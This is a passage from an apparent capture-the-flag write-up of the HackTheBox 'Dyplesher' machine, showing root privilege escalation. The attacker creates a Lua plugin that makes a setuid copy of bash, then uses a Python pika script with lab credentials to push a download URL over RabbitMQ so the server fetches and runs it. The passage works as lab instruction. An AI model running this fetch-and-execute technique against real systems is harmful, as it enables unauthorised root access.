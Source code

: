 ## Root privesc

The send.sh file contains a hint about what we need to do next:

```
felamos@dyplesher:~$ ls
cache  snap  user.txt  yuntao
felamos@dyplesher:~$ ls yuntao/
send.sh
felamos@dyplesher:~$ cat yuntao/send.sh 
#!/bin/bash

echo 'Hey yuntao, Please publish all cuberite plugins created by players on plugin_data "Exchange" and "Queue". Just send url to download plugins and our new code will review it and working plugins will be added to the server.' >  /dev/pts/{}
```

Cubberite plugins are basically just lua scripts so we can created a simple script that'll copy and make bash suid, then host that script locally with a local webserver.

```lua
os.execute("cp /bin/bash /tmp/snow")
os.execute("chmod 4777 /tmp/snow")
```

We'll reconnect to the box and port forward port 5672 so we can use the Pika Python library and publish messages to the RabbitMQ messaging bus: `ssh -L 5672:127.0.0.1:5672 felamos@10.10.10.190`

```python
#!/usr/bin/python

import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('127.0.0.1', 5672, credentials=credentials)
connection = pika.BlockingConnection(parameters)

channel = connection.channel()

channel.exchange_declare(exchange='plugin_data', durable=True)
channel.queue_declare(queue='plugin_data', durable=True)
channel.queue_bind(queue='plugin_data', exchange='plugin_data', routing_key=None, arguments=None)
channel.basic_publish(exchange='plugin_data', routing_key="plugin_data", body='http://127.0.0.1:8080/pwn.lua')
print("Message sent, check the webserver to see if the LUA script was fetched.")
connection.close()
```

```
snowscan@kali:~/htb/dyplesher$ python3 exploit.py 
Message sent, check the webserver to see if the LUA script was fetched.

felamos@dyplesher:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [24/May/2020 15:57:29] "GET /pwn.lua HTTP/1.0" 200 -
```
